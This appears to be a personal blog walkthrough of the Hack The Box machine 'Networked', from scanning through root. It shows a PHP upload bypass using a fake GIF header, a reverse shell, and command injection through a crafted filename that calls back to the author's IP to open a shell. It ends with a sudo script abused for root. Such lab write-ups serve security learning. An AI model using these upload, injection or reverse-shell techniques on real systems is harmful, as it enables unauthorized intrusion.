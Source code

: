 ```yaml
---
layout: post
title: "HTB-Networked"
categories: HTB-Walkthrough
---
```



![networked](/assets/img/networked/networked1.png)


This box was 'Active' when I first compromised it, and in my rush to elevate my 'status' on HTB 
I was left with the nagging thought that I didn't fully understand why my privesc to root worked. I made a mental note to come back and have another look.

Nmap first:

```
nmap 10.10.10.146 -sV -Pn |tee -a net.txt
```

```

Nmap scan report for 10.10.10.146
Host is up (0.12s latency).
Not shown: 997 filtered ports
PORT    STATE  SERVICE VERSION
22/tcp  open   ssh     OpenSSH 7.4 (protocol 2.0)
80/tcp  open   http    Apache httpd 2.4.6 ((CentOS) PHP/5.4.16)
443/tcp closed https

```


<hr width="250" size="6">


Checking out the webserver on port 80 first.

There's a hint in the source:

![web](/assets/img/networked/net-web.png)



```
python3 /opt/dirsearch/dirsearch.py -u http://10.10.10.146/ -w /root/wordlists/SecLists/Discovery/Web-Content/common.txt -e .gif
```

![backup](/assets/img/networked/net-backup.png)


```
tar xvf backup.tar

index.php
lib.php
photos.php
upload.php

```

`http://10.10.10.146/upload.php`

![uploadphp](/assets/img/networked/net-uploadphp.png)


<h3>Exploit Upload Evil.php.gif</h3>

We should upload evil.php
Rename it evil.php.gif and preprend GIF89 to the top of the file.

Trigger it by browsing to:
```
http://10.10.10.146/photos.php
```

![photosphp](/assets/img/networked/net-photosphp.png)


```

listening on [any] 6969 ...
connect to [10.10.14.7] from (UNKNOWN) [10.10.10.146] 33466
Linux networked.htb 3.10.0-957.21.3.el7.x86_64 #1 SMP Tue Jun 18 16:35:19 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux
 03:58:47 up  2:44,  0 users,  load average: 0.00, 0.01, 0.05
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=48(apache) gid=48(apache) groups=48(apache)
sh: no job control in this shell
sh-4.2$ 

```

<hr width="250" size="6">



<h3>Privesc to Guly</h3>


There's an interesting php file in guly's home directory:



```php

cat check_attack.php

<?php
require '/var/www/html/lib.php';
$path = '/var/www/html/uploads/';
$logpath = '/tmp/attack.log';
$to = 'guly';
$msg= '';
$headers = "X-Mailer: check_attack.php\r\n";

$files = array();
$files = preg_grep('/^([^.])/', scandir($path));

foreach ($files as $key => $value) {
        $msg='';
  if ($value == 'index.html') {
        continue;
  }
  #echo "-------------\n";

  #print "check: $value\n";
  list ($name,$ext) = getnameCheck($value);
  $check = check_ip($name,$value);

  if (!($check[0])) {
    echo "attack!\n";
    # todo: attach file
    file_put_contents($logpath, $msg, FILE_APPEND | LOCK_EX);

    exec("rm -f $logpath");
    exec("nohup /bin/rm -f $path$value > /dev/null 2>&1 &");
    echo "rm -f $path$value\n";
    mail($to, $msg, $msg, $headers, "-F$value");
  }
}

?>

```


This line is vulnerable to a code injection:
```
exec("nohup /bin/rm -f $path$value > /dev/null 2>&1 &");
```

It will execute the removal of the file, but we can append a second command to the first which will be 
executed by `guly`.


Go to the /var/www/html/uploads/ folder.
guly's php script pulls from here, we can use `touch` to create a file and execute an additional command.


we cannot use the normal " nc 10.10.14.7 -e /bin/bash" command, so we need an alternative.


```
bash-4.2$ touch "test  && 10.10.14.7 9999 --sh-exec bash"
```

catch the shell on `nc -nlvp 9999`

![gulyshell](/assets/img/networked/net-gulyshell.png)


and get the user flag:

```shell

ls -la
total 28
drwxr-xr-x. 2 guly guly 159 Jul  9  2019 .
drwxr-xr-x. 3 root root  18 Jul  2  2019 ..
lrwxrwxrwx. 1 root root   9 Jul  2  2019 .bash_history -> /dev/null
-rw-r--r--. 1 guly guly  18 Oct 30  2018 .bash_logout
-rw-r--r--. 1 guly guly 193 Oct 30  2018 .bash_profile
-rw-r--r--. 1 guly guly 231 Oct 30  2018 .bashrc
-r--r--r--. 1 root root 782 Oct 30  2018 check_attack.php
-rw-r--r--  1 root root  44 Oct 30  2018 crontab.guly
-r--------. 1 guly guly  33 Oct 30  2018 user.txt                                                                  
-rw-------  1 guly guly 639 Jul  9  2019 .viminfo                                                                  
cat user.txt                                                                                                       
52xxxxxxxxxxxxxxxxxxxxxxxxxxxxc5  

```


<h3>Privesc to Root</h3>


sudo su fails, as expected but we can list sudo commands for `guly` with `sudo -l`.

![sudol](/assets/img/networked/net-sudol.png)


lets have a look at the file:

```shell

cat changename.sh

#!/bin/bash -p
cat > /etc/sysconfig/network-scripts/ifcfg-guly << EoF
DEVICE=guly0
ONBOOT=no
NM_CONTROLLED=no
EoF

regexp="^[a-zA-Z0-9_\ /-]+$"

for var in NAME PROXY_METHOD BROWSER_ONLY BOOTPROTO; do
        echo "interface $var:"
        read x
        while [[ ! $x =~ $regexp ]]; do
                echo "wrong input, try again"
                echo "interface $var:"
                read x
y
        done
        echo $var=$x >> /etc/sysconfig/network-scripts/ifcfg-guly
done

```

This looks a bit dangerous. A bit like a 'Do It Yourself' `sudo su` command that can generate the shell of any user.



test it out:

run the file....
```
sudo /usr/local/sbin/changename.sh
```

then enter `sudo su` for everything......
get root shell.....

```shell

[guly@networked ~]$ sudo /usr/local/sbin/changename.sh
sudo /usr/local/sbin/changename.sh
interface NAME:
sudo su
sudo su
interface PROXY_METHOD:
sudo su
sudo su
interface BROWSER_ONLY:
sudo su
sudo su
interface BOOTPROTO:
sudo su
sudo su
[root@networked network-scripts]# cat /root/root.txt
cat /root/root.txt
0axxxxxxxxxxxxxxxxxxxxxxxxxxxx82
[root@networked network-scripts]#

```

I guess it was executing `su` as root, either from the initial `sudo` executing the script,
or one of the entries in the 'user input' parts but I didn't stick around long enough to reason why, 
I just grabbed the flag and ran!

<h3>Revisited</h3>


I had intended to revisit this box to work out why my 'keyboard mashing' privesc worked...but I didnt; so when the box was retired I had a look at some write-ups for the box; [0xdf's writeup](https://0xdf.gitlab.io/2019/11/16/htb-networked.html) investigates
this last phenomenom, and finds that the script's regex sanitizes the first bit of text but executes what comes after the space.

so it executed the `su` after the space....so I could have typed `foo su` or 'foo /bin/sh' for just the first entry and got the same result.

revisiting the box, I confirm this:

![foosu](/assets/img/networked/net-foosu.png)


:)




